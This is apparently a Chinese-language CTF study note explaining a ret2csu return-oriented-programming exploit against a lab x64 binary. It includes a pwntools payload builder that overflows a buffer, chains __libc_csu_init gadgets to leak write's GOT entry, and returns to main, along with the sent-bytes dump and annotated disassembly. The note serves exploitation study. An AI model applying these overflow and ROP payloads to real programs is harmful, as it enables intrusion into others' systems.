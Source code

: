 



# Post Analysis

> 后面写的csu有时表示python脚本中的`csu`函数，有时表示`_libc_csu_init`函数

## 1st csu

```python
# 1st cst调用时各个参数对应的值在备注中写上了
def csu(rbx, rbp, r12, r13, r14, r15, last):
    payload = b'a' * 0x80 + b'b' * 8 # leave执行完 rbp变成b'b' * 8 则说明payload中紧跟着的值会被覆盖到返回地址的位置上 具体原因查看function stack相关笔记
    payload += p64(csu_pop2retn_addr)  # 0x40061A 这里覆盖的是 vul 的返回地址，在 vul
    payload += p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
          #    0,         1,      write_got,      8,     write_got,     1,
    payload += p64(csu_front_addr) # 0x400600  call前面的地址
    payload += b'a' * 0x38 # 0x38是为了第二次执行 csu 400624 retn; 时，rsp能够指向last
    payload += p64(last) # main_addr 0x400587
    sh.send(payload)
    sleep(1)
csu(0, 1, write_got, 8, write_got, 1, main_addr)
```

- payload :`[a...a] [b...b] [0x40061A] [0] [1] [write_got] [8] [write_got] [1] [0x400600] [a...a] [main_addr]`

```assembly
[DEBUG] Sent 0x108 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000080  62 62 62 62  62 62 62 62  1a 06 40 00  00 00 00 00  │bbbb│bbbb│··@·│····│
    00000090  00 00 00 00  00 00 00 00  01 00 00 00  00 00 00 00  │····│····│····│····│
    000000a0  18 10 60 00  00 00 00 00  08 00 00 00  00 00 00 00  │··`·│····│····│····│
    000000b0  18 10 60 00  00 00 00 00  01 00 00 00  00 00 00 00  │··`·│····│····│····│
    000000c0  00 06 40 00  00 00 00 00  61 61 61 61  61 61 61 61  │··@·│····│aaaa│aaaa│
    000000d0  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000100  87 05 40 00  00 00 00 00                            │··@·│····│
```
### Brief Process

1. `vul`中的`retn`会将`EIP`赋值为`40061a`
2. 跳转到`40061a`，执行到`csu`中的`400624 retn`，然后跳转到`csu: 400600` 去执行
3. `400600`会将step-2中被赋值的一些寄存器利用起来，修改掉`rdi, rsi, rdx`的值，然后`call write@got` i.e. `write(1, write_got, 8)` 将`write_got`指向的内存的数据写8个字节到`stdout`标准输出中。
4. `400614 jnz short loc_400600` 执行时，由于寄存器值的设计，不会跳转，继续执行，`40061a`到`retn`的指令会再执行一次
5. 第二次执行`400624 retn`，此时`rsp`指向的地址存储的值是`main`函数的地址，故会再次执行`main`
6. 回到`main`之后，相当于一切从0开始，可以多次`csu`

```assembly
; 1st csu 函数被调用时，csu中指令的效果分析：
.text:0000000000400600 loc_400600: ; csu_front_addr ; x64传参 RDI, RSI, RDX, RCX, R8, R9
.text:0000000000400600            mov     rdx, r13 # rdx = r13 = 8
.text:0000000000400603            mov     rsi, r14 # rsi = r14 = write_got
.text:0000000000400606            mov     edi, r15d # edi = r15d = r15 = 1
.text:0000000000400609            call    qword ptr [r12+rbx*8] #call r12 + rbx*8 = write_got + 0*8
.text:000000000040060D            add     rbx, 1 # rbx = rbx + 1 = 1
.text:0000000000400611            cmp     rbx, rbp # cmp 1, 1; then ZF=1
.text:0000000000400614            jnz     short loc_400600 # if ZF==0, jmp. so NOT jmp, continue
.text:0000000000400616
.text:0000000000400616 loc_400616:       ; CODE XREF: __libc_csu_init+34j
.text:0000000000400616            add     rsp, 8
.text:000000000040061A            pop     rbx ; csu_pop2retn_addr; vul retn后到这; rbx = 0
```